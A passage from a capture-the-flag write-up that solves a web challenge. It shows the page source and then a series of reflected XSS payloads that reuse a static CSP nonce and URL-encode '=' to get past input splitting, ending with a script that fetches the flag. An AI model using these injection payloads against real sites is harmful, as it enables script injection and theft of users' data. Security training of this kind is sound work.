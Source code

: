 ```html

</body>
</html>
```

```html
<html>
<head><script src="jquery-3.5.1.min.js"></script></head>
<body>
  <img src="images/rick2.jpg" nonce="JIYr435smMmKG1nAAFNlrKUewAEaTWt1">

  <script nonce="JIYr435smMmKG1nAAFNlrKUewAEaTWt1">
    $.ajax({
      url: "flag.php",
      headers: {
        "Nonce": "JIYr435smMmKG1nAAFNlrKUewAEaTWt1"
      },
      success: function (result) {
        console.log(result);
      }
    });
  </script>

</body>
</html>
```
The first page exposed XSS vulnerability and the second one hinted toward the flag. My first task was to successfully get `XSS!` message in the developer console.
```
./Never_gonna_say_goodbye.html?search=<script>console.log("XSS!")</script>
```  
This attempt threw a Content Security Policy error in the developer console. So fixed it with my second try.
```
./Never_gonna_say_goodbye.html?search=<script nonce="JIYr435smMmKG1nAAFNlrKUewAEaTWt1">console.log("XSS!")</script>
```
The previous error was gone but the `arg` variable held only `<script nonce` part from my payload. So replaced `=` sign with `%3D` to get around the split.
```
./Never_gonna_say_goodbye.html?search=<script nonce%3D"JIYr435smMmKG1nAAFNlrKUewAEaTWt1">console.log("XSS!")</script>
```
Finally, the "XSS!" message arrived in the dev console. Good to go for the flag.
```
./Never_gonna_say_goodbye.html?search=<script nonce%3D"JIYr435smMmKG1nAAFNlrKUewAEaTWt1">$.ajax({ url: "flag.php", headers: { "Nonce": "JIYr435smMmKG1nAAFNlrKUewAEaTWt1" }, success: function (r) { console.log(r); } });</script>
```
The flag received in the dev console: `BtS-CTF{r1cK_g4v3_uP_y0ure_h3lpl3ss}`.

***    
  
### 2. Web challenge - Cheated lottery  